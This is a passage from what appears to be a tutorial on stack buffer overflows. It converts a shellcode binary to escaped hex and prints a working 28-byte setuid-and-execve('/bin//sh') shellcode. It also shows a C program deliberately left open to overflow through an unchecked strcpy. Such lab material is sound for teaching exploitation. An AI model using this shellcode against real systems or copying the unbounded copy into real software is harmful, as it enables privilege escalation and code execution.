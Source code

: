 Now with the next command we going to convert the binary content of "shellcode.bin" into a format commonly used in shellcode or other contexts where raw hexadecimal representation is needed. The output will be a series of `\x` prefixed hexadecimal values representing each byte in the binary file.
```
xxd -p -c 1 shellcode.bin | awk '{printf("\\x%s", $1)}'\n
```

the output of that should be our hex shell code values that we need to our buffer overflow example:
```
\x31\xdb\x8d\x43\x17\x99\xcd\x80\x31\xc9\x51\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x8d\x41\x0b\x89\xe3\xcd\x80
```

Also we need to know the length of our shellcode so we can use it for our calculation:

{% highlight bash %}
#!/bin/bash

shellcode="\x31\xdb\x8d\x43\x17\x99\xcd\x80\x31\xc9\x51\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x8d\x41\x0b\x89\xe3\xcd\x80"

# Remove the escape characters and calculate the length
length=$(echo -n -e $shellcode | wc -c)

echo "Length of shellcode: $length bytes"
{% endhighlight %}

The output for that one is:`Length of shellcode: 28 bytes`.

So now we can start on our first example, let's look on our first code, the following code is the vulnerable for buffer overflow since the buffer size have no boundaries.

{% highlight c %}
#include <stdio.h>
#include <string.h>

int main(int argc, char** argv) {
    // Declare a character array 'buffer' with a size of 500 bytes
    char buffer[500];

    // Copy the string from the command line argument argv[1] into the 'buffer'
    strcpy(buffer, argv[1]);

    // Return 0, indicating successful execution
    return 0;
}
{% endhighlight %}

Let's break it down, the line `int main(int argc, char** argv)` is the declaration of the main function in a C program.

`int` this specifies that the return type of the main function is an integer. The main function typically returns an integer value to the operating system, indicating the exit status of the program. A return value of 0 usually indicates successful execution, while a non-zero value often indicates an error or abnormal termination.

`main` this is the name of the function. In C, every program must have a main function, and execution of the program starts from the main function.
